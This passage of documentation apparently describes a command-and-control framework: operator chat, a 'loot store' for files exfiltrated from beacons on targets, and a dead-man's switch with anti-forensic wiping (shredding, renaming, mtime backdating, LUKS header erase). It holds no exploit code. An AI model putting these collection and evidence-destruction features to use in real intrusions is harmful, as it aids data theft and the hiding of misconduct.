what allows `/files` and `/get` to recover the original filename after
a restart has cleared the in-memory ring. A blob uploaded before the
`name` field existed loads with an empty name; `/files` shows a blank
column and `/get` falls back to the hash.

**Caps.** Three, all refuse rather than prune:

| Cap | Value | Rationale |
|-----|-------|-----------|
| `MAX_FILE_BYTES` | 64 MiB | Per-file. Rejected before any disk I/O |
| `MAX_TOTAL_BYTES` | 2 GiB | Cumulative. Existing files are never deleted to make room — the chain may reference any hash ever stored |
| `MAX_FILES` | 4096 | Inode guard against a flood of tiny files |

> **The request-body cap must clear the largest file the store will
> accept.** The base64 envelope of a 64 MiB file is ~85.3 MiB plus
> the JSON wrapper. The Flask `MAX_CONTENT_LENGTH` (set from
> `constants.MAX_REQUEST_BYTES`) must be at least ~90 MiB, or an
> upload near the per-file cap is rejected by Flask with a 413
> before the handler runs and the audit chain has no record of the
> attempt. Confirm `MAX_REQUEST_BYTES >= 90 * 1024 * 1024` in
> `tornado_client/constants.py` or lower `FileStore.MAX_FILE_BYTES`
> in `team/chat.py` accordingly. The two values live in different
> files and can silently drift apart on a version bump.

**Ownership.** First uploader owns the blob. A later dedup does not
transfer ownership. If the owner deletes the file, other operators'
announcements become dangling pointers — the ring and chain keep the
hash but `/get` returns 404. This is the correct trade: the operator
who paid for the upload decides when it goes away.

**Download shape.** The download endpoint returns base64 inside a JSON
envelope. No `Content-Disposition`, no `Content-Type` derived from the
file, no filename in any response header. The client chooses the save
path locally and verifies SHA-256 after decode; a truncated or garbled
response produces a refused write.

**Restart behaviour.** The store survives a restart with names, sizes,
and owners intact. `/files` lists everything still in the store;
`/get <sha256>` with no explicit path resolves the display name from
the sidecar and saves under that name. The audit chain carries the
same hash for each upload, so a leak traces back to a specific upload
even after the ring has cleared.

### Presence

`/who` returns every operator whose client has polled chat within the
last 15 seconds, plus an `idle_seconds` field for operators who have
polled within the last 5 minutes but not recently enough to count as
active. Presence is derived from the poll heartbeat, not from message
history — an operator who opens chat and says nothing still shows as
active.

State is keyed by mTLS CN, pruned on each record, and filtered through
the registry on read (a revoked operator's lingering heartbeat is
dropped from the roster). Presence is deliberately **not audited**; an
entry per poll would drown the chain.

**Presence semantics under the GUI.** The CLI's `_cmd_chat` runs a
synchronous loop; its poller is alive only while the operator is
inside chat. The GUI's `_GuiChat` runs a long-poll thread for the
life of the process. To keep `/who` meaning the same thing on both
frontends — "at the chat prompt," not "the client is running" —
the GUI's poller only sends a request while the Chat tab is the
active tab. Messages that arrive while the operator is on the Log
tab are delivered when they switch back: the `after` cursor is
preserved and the server's ring holds the backlog.

### Pinned topic

A single server-authoritative line, set with `/topic <text>`, cleared
with `/topic clear`, read with a bare `/topic`. Rendered on chat entry
and live when it changes. Sanitized on the same code path as message
bodies, capped at 256 characters. Every set and clear writes a
`chat.topic` audit entry carrying the new value or the old value on
clear.

### Security properties

| Property | Mechanism |
|----------|-----------|
| Provenance | Operator name read from the mTLS CN by `_extract_peer`; the request body cannot influence it. |
| Source address | `source_ip` is `request.remote_addr`; the request body cannot influence it. |
| DM confidentiality | Server-side filter in `ChatRoom._visible_to` and `ChatRoom.history`. A non-party's poll does not receive the message. |
| Notice integrity | Notice text is server-authored from a fixed table; client-supplied `text` is ignored. |
| Body sanitization | One sanitizer strips CSI, OSC, C0/C1, DEL, and Unicode formatting controls, flattens line structure, NFC-normalizes, caps combining marks, and enforces the length cap on the sanitized form. |
| Non-repudiation | Every message written to the hash-chained audit log. When the sanitizer modifies a body, a second `chat.message` entry carries the base64 and SHA-256 of the raw input. |
| Non-deletability | An edit to any chat entry breaks the chain, and the server refuses to start. |
| Flood resistance | Chat-specific token bucket: 3 messages/second sustained, 10-message burst. Separate from the general bucket so a chat flood cannot starve beacon operations. Applies to `send`, `history`, `topic`, and the three file routes. |
| Isolation | `audit.read.own` scopes `audit chat` to messages the operator sent or received; `audit.read.all` (admin only) sees all. |
| Transport | Every endpoint over the operator listener's mTLS socket, subject to the same `_with_cap` gate as every other route. |
| Reserved names | `room`, `off`, `exit`, `leave`, `none`, and `system` are refused at registration time. A DM addressed to `room` is refused by the server. |

### What this does not protect against

Four things are physically impossible to prevent and are stated so the
properties above are read with the right scope:

- **An operator copying what they see.** Chat is a transport, not a
  control.
- **An operator refusing to speak.** Nothing penalises silence.
- **An operator forwarding a DM.** The server-side filter keeps a DM
  out of a non-party's *view*; it does not prevent a party from
  republishing it.
- **A compromised operator credential.** An attacker with a legitimate
  cert and (if configured) password can send messages in that
  operator's name. The password second factor mitigates the
  config-leak case, not the compromised-machine case.

### Endpoints

Nine routes on the operator listener, all requiring `chat.use`.

| Route | Method | Purpose |
|-------|--------|---------|
| `/api/v1/chat/send` | POST | Append a message. `{"kind": "chat"\|"action"\|"dm"\|"notice", "text": "...", "recipient": "<name>", "event": "join"\|"leave"}` |
| `/api/v1/chat/poll` | POST | Long-poll. `{"after": <id>, "wait": <seconds>}`. `wait` clamped to 5 s. Records presence heartbeat. |
| `/api/v1/chat/history` | POST | Last N messages. `{"limit": <N>, "peer": "<name>"}`. `limit` clamped to 500. With `peer`, returns the DM thread. |
| `/api/v1/chat/who` | POST | Presence roster. |
| `/api/v1/chat/topic` | GET / POST | GET reads. POST sets (`{"text": "..."}`) or clears (`{"text": ""}`). |
| `/api/v1/chat/file/upload` | POST | `{"name": "<display>", "data_b64": "<base64>"}`. Filename stored only as message body; on-disk path is the SHA-256. |
| `/api/v1/chat/file/download` | POST | `{"sha256": "<64 hex>"}`. Response carries bytes as base64 in `data_b64`. |
| `/api/v1/chat/file/delete` | POST | `{"sha256": "<64 hex>"}`. Refuses non-owners. |
| `/api/v1/chat/files` | POST | Empty body. Returns `{"files": [{"sha256", "name", "size", "owner", "ts"}, ...]}` newest first. Reads the on-disk index, so it survives restart. |

Poll is exempt from the general rate bucket (same reason
`/beacon/<id>/result` is), but the chat bucket still applies to
`send`, `history`, `topic`, and the three file routes.

### Client experience

```
adc > chat
── topic: Op ACME — focus on dc01, avoid finance (set by alice, 10:05) ──
14:32  alice  ❯ hello everyone
14:32  bob    ❯ ack
14:33  * alice staged the payload on WEB02
14:33  bob    ❯ @alice running it now
14:34  alice  📎 notes.pdf (412.3K) sha256:9f2a1c0d8b4e… (truncated for display)
```

`/dm <peer>` enters sticky DM mode (`[chat→bob]` in the prompt);
`/dm off` returns to broadcast; `/dm <peer> <text>` sends one DM
without entering the mode. `/me` inside DM mode is delivered as a DM.

Per-operator colours are deterministic (same hash → same colour on
every client). `@mentions` are coloured; the viewer's own name is
bolded. Day separators print on the first message of each calendar
day. File lines show the **full** 64-character SHA-256 — the prefix
is not what `/get` accepts.

Client-side commands (not sent to the server): `/me`, `/dm`, `/topic`,
`/who`, `/history`, `/file`, `/get`, `/files`, `/delete`, `/clear`,
`/help`, `/quit`.

`/history` reads the in-memory ring — the live window the room
currently holds. `/history --persist` reads `logs/chat/chat.jsonl`,
which reaches further back and survives a server restart. The two
are not exclusive: after a restart with a reloaded ring, `/history`
returns the last 1000 messages and `/history --persist 500` returns
the last 500 from disk, which are the same 500 in that case. After
a long session where the ring has rotated, `/history --persist`
returns older messages that `/history` cannot reach.

### Reading chat history via the audit log

The default `audit` view hides `chat.*` entries so a busy room does not
push operational entries off the window. Use:

```
adc > audit chat          # last 50 chat messages
adc > audit chat 200      # last 200
```

The server filters on `action == "chat.message"` and applies the same
`audit.read.own` / `audit.read.all` scoping as any other audit read. A
viewer sees only their own sent and received messages; an admin sees
all.

### Configuration

| Constant | Default | Effect |
|----------|---------|--------|
| `ChatRoom.MAX_MESSAGES` | `10000` | In-memory ring size, and the number of entries reloaded from `chat.jsonl` on startup |
| `ChatRoom.MAX_PERSISTED_LINES` | `4000` | Upper bound on the on-disk `chat.jsonl` file; compacted on startup and every `COMPACT_EVERY_WRITES` appends |
| `ChatRoom.COMPACT_EVERY_WRITES` | `1000` | Number of appends between periodic compactions of `chat.jsonl` |
| `ChatRoom.MAX_TEXT_LEN` | `4096` | Maximum message length, enforced after sanitization |
| `ChatRoom.MAX_TOPIC_LEN` | `256` | Maximum topic length, after sanitization |
| `PRESENCE_WINDOW` | `15.0` | Seconds within which a poll counts as "active" |
| `PRESENCE_RETAIN` | `300.0` | Seconds before an idle presence entry is pruned |
| `CHAT_PER_SEC` | `3.0` | Sustained send/history/topic/file rate |
| `CHAT_BURST` | `10` | Burst allowance |
| `CHAT_LOG_DIR` | `logs/chat` | Human-readable mirror and file-store parent |
| `FileStore.MAX_FILE_BYTES` | `64 * 1024 * 1024` | Per-file cap |
| `FileStore.MAX_TOTAL_BYTES` | `2 * 1024 * 1024 * 1024` | Cumulative store cap |
| `FileStore.MAX_FILES` | `4096` | File-count cap |
| `MAX_CONCURRENT_PER_OPERATOR` | `6` | In-flight request cap, applies to every operator endpoint including poll |
| `NONCE_CACHE_MAX` | `65536` | Hard cap on the replay-prevention cache |

### Operational notes

**Two files live under `logs/chat/`.** `chat.txt` is the human-readable
mirror and grows unbounded — it is a convenience, not a bounded ring.
Add a `logrotate` entry, or ignore it: the chain is the durable record
and is managed by the same rotation policy as everything under
`logs/audit/`. `chat.jsonl` is the structured store the server reads on
startup; it is compacted to `MAX_PERSISTED_LINES` on every load and
periodically during a long session, so it stays bounded without
operator intervention.

**The file store grows until the caps are reached.** To reclaim space,
remove files under `logs/chat/files/` and restart the server. The index
is rebuilt by scanning on construction, so a file deleted while the
server is running becomes unreachable on the next read and is dropped
from the index on the next restart.

**Chat entries cost the same fsync as every other audit entry.** The
3/sec rate limit bounds this: worst case is roughly 40 KB/sec of audit
writes with 32 operators flooding.

---

## Loot Store

Every file an operator pulls from a beacon with `download` is
automatically pushed to a server-side store under its SHA-256. Any
operator with `loot.use` can retrieve any stored file by hash. The
loot store is independent of the chat file store — separate directory,
separate caps, separate capability — but the two share the
content-addressed design.

The store never opens, parses, sniffs, or executes a stored file. It
writes bytes, reads bytes back on request, and deletes on request. No
MIME detection, no server-side preview, no execution path.

### Storage layout

```text
logs/lootstore/
  <sha256>          the bytes, 0600
  <sha256>.meta     metadata sidecar, 0600
  incoming/         staging directory for chunked uploads, 0700
```

Metadata fields:

| Field | Meaning |
|-------|---------|
| `owner` | The operator who first uploaded the bytes |
| `ts` | Unix timestamp of the first upload |
| `name` | Display name — the local path the operator saved to |
| `source_path` | The remote path the file was read from on the target |
| `source_beacon` | The beacon ID it came from, or `0` |

The display name is the local path the operator saved to on their
workstation, sanitized on the way in. The source path is the remote
path the file was read from on the target, before any local rename.
Both travel back on `loot list` and `loot get` so a recipient knows
where the file came from.

### Automatic collection

`download <remote> <local>` runs the normal chunked transfer, then, on
a verified SHA-256 match, pushes the file to the server. The push is
automatic; the operator sees a `✓ loot stored … share by
sha256:<hash>` line after the download footer.

Pass `--no-loot` for a private download that stays off the store.

The push is best-effort. A failure — the loot store is unavailable,
the capability is missing, the caps are hit — does not fail the
download, which has already completed and been verified. The operator
still has the file locally.

### Retrieval

Any operator with `loot.use` can list and retrieve by SHA-256:

```
adc > loot list
adc > loot get <sha256> [<path>]
```

`loot get` defaults the save path to the recorded display name, with
`/` and `\` replaced by `_` so a hand-crafted name cannot write outside
the client's CWD. The client verifies the SHA-256 after decode and
refuses to write on mismatch, so a truncated or garbled response cannot
land a corrupt file on disk.

Deduplication is by hash: two operators uploading the same bytes share
one blob. The first uploader's provenance and ownership stick. A later
upload by a different operator — including an automatic one from a
`download` — does not transfer ownership.

### Deletion

Deletion rules are asymmetric by role:

| Role | May delete |
|------|-----------|
| Operator | Only loot they uploaded |
| Admin | Any loot, including orphans with no recorded owner |

A regular operator attempting to delete another operator's loot gets
`file is owned by 'X'; ask an admin to remove it`. An admin who
deletes a blob they do not own sees `admin override — this loot
belonged to X` printed locally, and the audit entry carries
`override=admin` in its detail field alongside the previous owner's
name.

An admin deleting their own loot is not marked as an override — the
override marker exists to make the delegation of authority legible in
the chain, not to flag every admin deletion.

If the owner removes a blob that another operator's earlier `loot
list` referenced, the reference becomes a dangling pointer — the audit
chain keeps the original upload entry, and a download on the hash
returns 404. That is the correct trade: the operator who paid for the
upload decides when it goes away, and a dedup is never a claim of
ownership.

### Chunked upload

The single-shot `/api/v1/loot/upload` endpoint is capped by the Flask
request-body limit (`MAX_REQUEST_BYTES`, 90 MiB by default). For
anything larger, the client uses a streaming path:

| Step | Endpoint | Purpose |
|------|----------|---------|
| Init | `/api/v1/loot/upload/init` | Register the upload, get an `upload_id` and `chunk_size` |
| Chunk | `/api/v1/loot/upload/chunk` | Append one chunk at the current offset |
| Finish | `/api/v1/loot/upload/finish` | Verify SHA-256 and move into the store |
| Abort | `/api/v1/loot/upload/abort` | Drop staging state and delete the staging file |

The client picks the streaming path automatically when the file exceeds
16 MiB. Files under that threshold use the single-POST endpoint, which
is one round trip instead of many.

**The effective per-file ceiling on the streaming path is
`min(MAX_FILE_BYTES, MAX_TOTAL_BYTES - already-stored)`** — 128 GiB per
file, and 64 TiB cumulative. A 100 GiB file streams cleanly; a 200 GiB
file is refused with a cap error on the `init` step, before any chunk
is sent. Both limits are bounded by disk rather than the request body.

Staging files live under `logs/lootstore/incoming/<upload_id>`. They
are removed on `finish`, on `abort`, on server start, and by a sweep
that runs each time a new upload is initiated. A crashed client leaves
a staging file behind; the sweep is the only thing that cleans it up.
The default TTL is four hours, refreshed on every successful chunk
append — so a slow link is not punished, but an abandoned upload is
reclaimed within four hours of its last chunk.

The per-upload lock is held across each chunk's file write; the sweep
uses a non-blocking acquire and skips any upload whose lock is held.
This closes the race where a concurrent append would otherwise write to
an unlinked inode after the sweep removed the staging file. `finish`
also holds the same lock across its hash-verify-and-move, so two
concurrent finish calls for the same upload cannot both try to commit.

### Caps

| Cap | Value | Applies to |
|-----|-------|-----------|
| `MAX_FILE_BYTES` | 128 GiB | Streaming path only; the single-shot POST is capped by `MAX_REQUEST_BYTES` (~64 MiB of raw file after base64) |
| `MAX_TOTAL_BYTES` | 64 TiB | Cumulative, both paths |
| `MAX_FILES` | 32768 | Cumulative, both paths |

All three refuse rather than prune. Existing files are never deleted to
make room — the audit chain may reference any hash ever stored.

The single-shot `/api/v1/loot/upload` endpoint is bounded by the Flask
request-body limit (`MAX_REQUEST_BYTES`, 90 MiB by default): the base64
envelope of a 64 MiB file is ~85.3 MiB, which just fits. Anything larger
goes through the streaming path, where each chunk is 4 MiB (base64 to
~5.3 MiB) and the only ceiling is `MAX_FILE_BYTES` — 128 GiB, bounded
by disk on the server. The client picks the streaming path automatically
for any file above its own 16 MiB threshold, so a `lootstore upload` of
a 100 GiB file selects it without operator action.

### Endpoints

All routes require `loot.use` and consume a token from the general API
bucket, not the chat bucket.

| Route | Method | Purpose |
|-------|--------|---------|
| `/api/v1/loot/list` | POST | List every stored blob with provenance |
| `/api/v1/loot/upload` | POST | Single-shot upload (≤ 64 MiB) |
| `/api/v1/loot/upload/init` | POST | Open a streaming upload |
| `/api/v1/loot/upload/chunk` | POST | Append one chunk |
| `/api/v1/loot/upload/finish` | POST | Verify and commit |
| `/api/v1/loot/upload/abort` | POST | Drop staging state |
| `/api/v1/loot/download` | POST | Retrieve by SHA-256 |
| `/api/v1/loot/delete` | POST | Delete if owner or admin |

The download response carries the bytes base64-encoded in a JSON
envelope alongside `name`, `source_path`, `source_beacon`, and
`owner`. No `Content-Disposition`, no `Content-Type` derived from the
file, no filename in any response header.

### Client commands

| Command | Description |
|---------|-------------|
| `loot list` | List every stored file, newest first |
| `loot get <sha256> [<path>]` | Retrieve a file; verifies SHA-256 after decode |
| `loot upload <local_path> [<display_name>]` | Push a local file into the store under its SHA-256. The display name defaults to the file's basename; pass a second argument to override it |
| `loot delete <sha256>` | Delete a file you uploaded |
| `loot help` | Show usage |

`lootstore` is an alias for `loot` — every sub-command behaves
identically. Both spellings appear in tab-completion; a script can use
whichever reads better at the call site.

`loot` is a **main-scope** command — it is available from the
top-level prompt, not from an attached beacon. It does not require a
beacon session.

**`loot upload` is not `download`.** `download` pulls a file from a
beacon and pushes it to the store automatically on a verified SHA-256
match; `loot upload` takes a file that already exists on the
operator's machine and registers it under its own hash. The
`source_path` field, which records where a file came from on the
target, is left empty for a `loot upload` — a local file has no
target-side path to record. Everything else (dedup by hash,
first-uploader ownership, admin delete override) is identical.

### Audit

| Action | When |
|--------|------|
| `loot.list` | Every listing |
| `loot.store` | Successful upload (single-shot or streaming finish) |
| `loot.upload` | Streaming init |
| `loot.upload.chunk` | Chunk failure or throttle (success is not audited — too noisy) |
| `loot.upload.finish` | Finish failure or throttle |
| `loot.get` | Every download |
| `loot.delete` | Every deletion, successful or refused |

An admin override carries `override=admin` in the detail field
alongside the previous owner's name:

```
2026-10-09 14:32:18  alice@admin (10.0.0.5)  loot.delete a1b2c3d4  ok
    size=4123 owner=bob override=admin
```

The audit chain is the durable record: an admin who removed another
operator's loot cannot hide behind a general view. The original upload
entry and the deletion entry both remain in the chain — deleting a
blob does not delete its history.

### Capability

`loot.use` is granted to:

- `operator` — full access
- `admin` — full access, plus the delete override

It is **not** granted to `viewer` or `guardian`. A viewer's client
short-circuits with `your role does not include loot.use` before the
request reaches the server. The server enforces the same rule at
`_with_cap`, so a hand-crafted request from a viewer's cert is refused
with a 403 and audited.

### Relationship to the chat file store

The two stores are independent:

- Different base directories (`logs/lootstore/` vs.
  `logs/chat/files/`).
- Different caps (loot has no per-file limit on the streaming path;
  chat is capped at 64 MiB per file).
- Different capabilities (`loot.use` vs. `chat.use`).
- Different ownership rules (chat has no admin override; loot does).

They share the content-addressed layout, the `.meta` sidecar shape, and
the "refuse rather than prune" cap policy. A hash that is valid in one
is valid in the other, so an operator can move a hash between the two
without surprise.

### Operational notes

**The store grows until the caps are reached.** To reclaim space,
remove files under `logs/lootstore/` and restart the server. The index
is rebuilt by scanning on construction, so a file deleted while the
server is running becomes unreachable on the next read and is dropped
from the index on the next restart.

**Bandwidth is not rate-limited by bytes.** The general token bucket
counts requests, not bytes. An operator streaming 4 MiB chunks at 100
requests/second can push roughly 400 MiB/second.
`MAX_CONCURRENT_PER_OPERATOR` limits parallelism but not throughput.
Add a byte-token bucket if this matters for your deployment.

**The cumulative cap is the DoS protection.** With `MAX_TOTAL_BYTES`
at 64 TiB, the effective protection is disk space, not the cap. On a
shared volume, put `logs/lootstore/` on its own filesystem or set
`MAX_TOTAL_BYTES` to a value that leaves headroom for the audit chain
— a full disk silently breaks the audit chain, which is the one thing
you cannot lose.

**The remote operator client has `loot`; the local console does not.**
The store is exposed over the operator API. The local console runs in
the same process as the server and accesses the store's files directly
under `logs/lootstore/` if it needs to. A future revision could add a
`loot` command to the local console, but it is not implemented today.

### What this does not protect against

- **An operator who uploads an executable and another who downloads
  and runs it.** The server never inspects bytes. That is the whole
  design. The trust boundary is between operators, not between an
  operator and the server.
- **Loot is not encrypted at rest.** If the team server's disk is
  seized or read by someone with filesystem access, the loot is
  plaintext. Only the operator channel is encrypted.
- **A hostile operator with `loot.use` can fill the disk** up to the
  caps. See the operational notes above.

---

## Dead-man's Switch

A wall-clock watchdog for the team server. Once armed, it fires at a
fixed deadline. When it fires, it stops every listener, wipes the
`TornadoC2` tree, optionally powers the host down, and exits.

Two motivations:

1. **Time-boxed engagements.** A team server on a shared or rented VPS
   should not outlive its authorisation window.
2. **Unattended operation.** An operator who walks away for the weekend
   should not leave an accessible team server running.

The switch is **off by default**. It is armed by the `deadman arm
<duration>` console command, by writing `team_ca/deadman.json`, or by
setting `TORNADO_DEADMAN_HOURS` at startup. Configuration persists
across restarts; environment variables override for a single run only.

### The deadline model

The switch is **deadline-based**. Once armed, it fires at the deadline
regardless of activity. Nothing except an explicit `deadman arm` or
`deadman reset` can move it.

What activity does affect:

- `deadman status` shows the last-touch time and source for each
  activity class — console, remote operator, manual re-arm — so "who
  was using this before it fired" is answerable.
- The `deadman warn` thresholds are printed when the switch crosses
  them, on the way to the deadline.

What activity does **not** affect:

- The deadline. Typing, running a build, reading the audit log,
  opening a SOCKS proxy, none of it moves the deadline.
- The switch's decision to fire. The tick fires on schedule.

This is deliberate. The switch is an accountability mechanism, not an
idle detector. An operator who wants more time asks for it with
`deadman arm` or `deadman reset`; the act of asking is audited. An
operator who is merely present does not get more time.

### Console commands

All control is from the local console. The sub-verbs:

| Command | Description |
|---------|-------------|
| `deadman status` | Show deadline, window, elapsed time, remaining time, warning state, activity source breakdown |
| `deadman arm <duration>` | Arm with a fresh window starting now. Accepts `30s`, `5m`, `2h`, `1d`, `2h30m`, or a bare number of seconds |
| `deadman arm-until <HH:MM>` | Arm with a wall-clock deadline today, or tomorrow if the time has already passed |
| `deadman reset <duration>` | Re-arm with a fresh window starting now. `deadman reset 2h` gives you two hours from this moment |
| `deadman disable` | Clear the deadline. Persists across restarts |
| `deadman warn <f1,f2,...>` | Warning thresholds as fractions of the window. `0.5,0.8,0.95`. Use `none` to disable warnings |
| `deadman halt <none\|shutdown\|reboot>` | Set the post-wipe power action. Persists |
| `deadman shred <mode>` | Set the deletion algorithm applied to every file before unlinking. Persists. See [Deletion modes](#deletion-modes) |
| `deadman help` | Sub-verb help |

Example session:

```
beacon> deadman arm 4h
[DEADMAN] armed for 4.00h

beacon> deadman status
  dead-man's switch  armed

  deadline      2026-10-08 20:11:39
  window        4.00h
  elapsed       2s
  remaining     4.00h
  progress      [░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░]   0%

  check every   60s
  warn at       80%, 95%
  fired         none

  last source   console
  last activity 2026-10-08 16:11:42
  armed at      2026-10-08 16:11:39

  activity by source:
    console      16:11:42  (2s ago)

beacon> deadman arm-until 20:00
[DEADMAN] armed until 2026-10-08 20:00:00 (3.80h from now)

beacon> deadman warn 0.5,0.9
[DEADMAN] warnings at 50%, 90%

beacon> deadman shred nist
[DEADMAN] shred mode: nist — NIST SP 800-88 Clear (1 random pass)

beacon> deadman shred scrub
[DEADMAN] shred mode: scrub — prealloc + O_DIRECT + random + syncfs + TRIM

beacon> deadman halt shutdown
[DEADMAN] halt mode: shutdown

beacon> deadman reset 30m
[DEADMAN] re-armed for 30.00m

beacon> deadman disable
[DEADMAN] disabled (was 29.87m)
```

Note that `deadman reset` requires a duration. There is no bare
`deadman reset` — the operator is stating a fresh window, not just
touching the switch.

### Activity tracking

The switch keeps a per-source last-touch map. `deadman status` prints
it. The sources are:

| Source | When it fires |
|--------|---------------|
| `console` | A command typed at the local team server console |
| `remote:<name>` | An authenticated request from a remote operator |
| `manual` | A `deadman arm` or `deadman reset` from the console |
| `startup` | The switch's own initialisation |

When the switch fires, the console message names the source, and the
same detail goes into the audit log. That answers "who was using this
before it fired" without a separate investigation.

As noted above, none of these touches move the deadline. They exist
purely for the post-mortem.

### Warnings

By default the switch fires two warnings — at 80 % and 95 % of the
window — before shutdown. Each warning prints a console line with the
remaining time and writes a `deadman.warn` audit entry. Warnings are
**not** cleared by activity. Once the switch has fired a warning at a
threshold, that threshold is done for the lifetime of the current arm.

Customise with `deadman warn <f1,f2,...>` or the
`TORNADO_DEADMAN_WARN` environment variable. Fractions must be strictly
between 0 and 1; `1.0` is the shutdown itself and does not need a
warning. Use `none` to disable warnings while keeping the switch armed.

### Deletion modes

Before unlinking each file, the switch overwrites or otherwise
invalidates it. The algorithm is set by `deadman shred <mode>` and
persists to `team_ca/deadman.json`.

Modes fall into two categories. **Pattern modes** are the traditional
overwrite sequences, effective on magnetic media and ineffective on
flash and copy-on-write filesystems. **Structural modes** are what
actually works on modern media — discard, header destruction, and the
infrastructure that makes an overwrite reach the device.

#### Pattern modes

| Mode | Passes | Notes |
|------|--------|-------|
| `fast` | 2: `0x00`, `0xFF` | The pre-2010 behaviour. Fastest. |
| `random` | 3: fresh `os.urandom` each pass | Change the pass count with `TORNADO_DEADMAN_SHRED_PASSES` |
| `dod` | 7: `0x00`, `0xFF`, random, `0x00`, `0xFF`, random, `0x00` | DoD 5220.22-M ECE. **Default.** |
| `gutmann` | 35: 4 random, 27 fixed, 4 random | Historic. Only meaningful on old magnetic media. |
| `nist` | 1: cryptographic random | NIST SP 800-88 Rev. 1 Clear. What the current US standard recommends for a non-SED HDD, and the minimum viable overwrite on any media. |
| `schneier` | 7: `0xFF`, `0x00`, then five random | Schneier's sequence from *Applied Cryptography*. |
| `hmg` | 3: `0x00`, `0xFF`, random | HMG Infosec Standard 5 Enhanced (UK). |
| `bsi` | 3: cryptographic random | German BSI-VSITR. |

#### Structural modes

| Mode | Behaviour | Notes |
|------|-----------|-------|
| `trim` | Random pass + `syncfs` + `FALLOC_FL_PUNCH_HOLE` on the parent directory after unlink | The `PUNCH_HOLE` is what signals the SSD controller to garbage-collect the freed blocks. Falls back to plain unlink on a filesystem that refuses the call. |
| `scrub` | `fallocate` the file to force block allocation, then `O_DIRECT` random pass, then `syncfs`, unlink, and `PUNCH_HOLE` | The kitchen sink for mixed HDD/SSD deployments. The `fallocate` ensures sparse files have real blocks to overwrite; `O_DIRECT` bypasses the page cache so each pass reaches the device before the next begins. |
| `crypto` | One `fast` overwrite, then `cryptsetup luksErase` on the LUKS volume that holds the tree | **Destructive to the whole volume.** When the tree sits on a LUKS-encrypted device, destroying the header makes every byte on that device unrecoverable — including any data outside the TornadoC2 tree. Off by default; the local console prompts before enabling, and the remote API requires `{"confirm": true}`. Falls through to plain overwrite when no LUKS header is found. |

**Choosing a mode.** For a spinning-rust team server with no
encryption, `dod` or `nist` are both fine. For an SSD or NVMe box,
none of the pattern modes do anything physical — use `trim` for a
best-effort discard, or `crypto` if the tree is on a LUKS volume.
`scrub` is the fallback for a filesystem that refuses `O_DIRECT`
(older NFS mounts, some FUSE-based network filesystems).

#### Infrastructure flags

Four booleans sit alongside the mode and can be set individually in
`team_ca/deadman.json` to layer their behaviour onto any pattern mode:

| Flag | Default | Effect |
|------|---------|--------|
| `shred_prealloc` | `false` | Call `fallocate` on the file before the first pass, so a sparse file has real blocks for the overwrite to reach |
| `shred_direct` | `false` | Open with `O_DIRECT`, bypassing the page cache so each pass reaches the device before the next begins. Refused by some filesystems; silently downgraded |
| `shred_trim` | `false` | Call `FALLOC_FL_PUNCH_HOLE` on the parent directory after unlink, to trigger a discard |
| `shred_syncfs` | `false` | Call `syncfs` on the containing filesystem after each file, so filesystem metadata is flushed, not just the file's own buffer |

The `scrub` and `trim` structural modes set the relevant flags for the
duration of each file. A mode that is not one of the structural modes
reads the flag as configured.

#### Other options

Set in `deadman.py` and read by every mode:

- `SHRED_WORKERS` (default 4) — parallel shredder threads.
- `SHRED_BUFFER` (default 1 MiB) — write buffer per pass.
- `SHRED_FSYNC` (default True) — `fsync` after every pass.
- `SHRED_VERIFY` (default True) — read-back after the final fixed pass;
  a mismatch marks the file as failed and continues.
- `SHRED_RENAME` (default True) — rename each file to a random name
  before unlinking, so the directory entry is also obscured.
- `SHRED_OBSCURE_MTIME` (default True) — backdate mtime and atime to a
  random point in the past 180 days.

#### Honest scope

Every one of these modes is best-effort. On an SSD, NVMe, or any
copy-on-write filesystem (ZFS, btrfs, APFS), the device relocates
blocks on write, so the pass writes to different physical blocks than
the ones the file occupied. The overwrite is invisible in the raw
device.

NIST SP 800-88 Rev. 1 and IEEE 2883-2022 both state that for flash and
SMR storage, **overwrite is not a sanitization method**. The three
mechanisms that actually deliver "unrecoverable" on modern media are:

1. Full-disk encryption plus destruction of the key — the `crypto` mode.
2. The device's own sanitize command — ATA Secure Erase, NVMe Format
   with `--ses=2`, `blkdiscard`. These destroy an entire device and are
   **not** offered by the switch; running one unattended would wipe
   the operator's boot disk if the team server happened to share it.
3. Physical destruction — outside the scope of any software.

For a deployment that actually needs unrecoverable-on-modern-media,
put the team server on a LUKS volume and use `crypto` mode, or rely on
full-disk encryption for the whole machine and treat the wipe as a
convenience that removes directory entries.

### The halt sequence

The switch fires on a deadline, but the same sequence runs for
`manual_halt` and for the remote `halt` command. Four steps:

1. **Stop every listener.** Beacon listener, operator listener, client
   tunnel, pivot manager, DNS transport (which also serves DoH), ICMP
   transport. Each is stopped independently so one failure does not
   block the rest. The `finally` block in `_run_shutdown_sequence`
   catches any exception per listener and continues.
2. **Wipe the `TornadoC2` tree.** See below.
3. **Optional power action.** If `halt` mode is `shutdown` or `reboot`,
   `_system_halt` invokes `systemctl poweroff` / `systemctl reboot`,
   falling back to `/sbin/shutdown -h now` / `-r now`. Requires the
   handler user to be permitted to call power management without a
   password. A failure prints a message and does not block the exit.
4. **Hard exit.** `os._exit(1)` after flushing stdout and stderr.

### Wipe scope

The target is the **entire `TornadoC2` repository tree** —
`TORNADO_ROOT_NAME` in `deadman.py` — found by walking
`TORNADO_ROOT_UP_LEVELS` directories up from the process CWD (default
1). The whole directory is removed, not just the state subdirectories.

In `crypto` mode, the *first* action is the LUKS erase described
above, not the file-level overwrite. If the erase succeeds, every byte
on the volume is already unrecoverable and the per-file overwrite is
skipped — `rmtree` removes the directory entries. If the erase fails
(no LUKS header, `cryptsetup` missing), the switch falls through to
the pattern the mode would otherwise use.

Safety rails enforced in `_cleanup_state`:

- The resolved target path must end in `TORNADO_ROOT_NAME`. A directory
  named `TornadoC2` must sit at exactly that path.
- The target must not be `/` or the invoking user's `$HOME`.
- The target must not be a **strict ancestor** of the working directory.
  Deleting CWD itself is allowed — the process is exiting and the inode
  is cleaned when the last handle closes — but wiping a directory that
  contains CWD is refused.
- Symlinks at the top level are resolved, then the name and containment
  checks run against the real path.

If the check fails, the cleanup prints the reason and skips. The
process still exits.

### Manual trigger

`halt` at the top level runs the same sequence immediately, without
arming the timer.

```
beacon> halt
  this will:
    - stop every listener
    - wipe team_ca/, logs/, .keys/, beacon_output/, payloads/
    - power off the machine

  proceed? [y/N] y
[DEADMAN] manual halt (console) — stopping listeners, wiping
          state, then shutting down
```

Arguments:

- `halt` — use the currently configured halt mode.
- `halt shutdown` — set halt mode to `shutdown` for this run and
  proceed.
